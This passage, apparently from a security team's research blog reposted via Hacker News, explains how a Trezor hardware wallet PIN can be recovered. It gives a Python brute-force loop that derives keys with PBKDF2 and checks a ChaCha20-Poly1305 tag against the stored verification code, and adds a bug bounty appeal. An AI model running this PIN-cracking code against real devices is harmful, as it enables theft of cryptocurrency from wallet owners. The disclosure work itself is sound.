 for i in range(1, 9999):  
if i % 100 == 0:  
print(f”Currently trying: {i}”)  
dk = trezor\_pbkdf(str(i), salt\_assembled)

\# First 256 bits are Key Encryption Key (KEK)  
KEK = dk\[:int(256/8)\]  
\# Remaining 96 bits are Key Encryption Initialization Vector (KEIV)  
KEIV = dk\[int(256/8):\]

if args.debug:  
print(f”KEK: {binascii.hexlify(KEK)}”)  
print(f”KEIV: {binascii.hexlify(KEIV)}”)

DEK = chacha\_dec(KEK, KEIV, edek)  
\# Encrypt to get the TAG, unfortunately seems to be the only  
\# way to retrieve it from Pycryptodome.  
enc, TAG = chacha\_enc(KEK, KEIV, DEK)  
if args.debug:  
print(f”DEK: {binascii.hexlify(DEK)}”)  
print(f”TAG : {binascii.hexlify(TAG)}”)  
print(f”PVC : {binascii.hexlify(pvc)}”)

if pvc in TAG:  
print(“SUCCESS”)  
print(“PIN is:”)  
print(i)  
sys.exit(0)

Key derivation
--------------

The salt, consisting of the hardware salt appended with the salt from the entry, is used in combination with the PIN (prefixed by a 1 and converted to a 32-byte little endian integer) to derive a key using PBKDF2-HMAC with SHA256 and a derived key length of 362 bits. The first 256 bits of the result are used as the Key Encryption Key (KEK), while the last 96 bits are used as the Key Encryption Initialization Vector (KEIV).

Key verification
----------------

The Data Encryption Key (DEK) is generated from the EDEK by decrypting the EDEK using the KEK and the KEIV. The encryption algorithm used is ChaCha20 with the Poly1305 message authentication code. If the first 64 bits of the PVC are identical with the first 64 bits of the TAG, then the PIN was correct and the DEK was successfully recovered.

If You See Something, Earn Something 
=====================================

*   As you can tell, our security team is always on the lookout for vulnerabilities that may pose a threat to our clients. 
*   If you’re interested in helping us identify potential bugs on our platform, check out our [Bug Bounty program](https://www.kraken.com/en-us/features/security/bug-bounty). 
*   We payout a minimum of $100 for each issue and potentially more for serious threats.

  
  
from Hacker News https://ift.tt/37Mzdif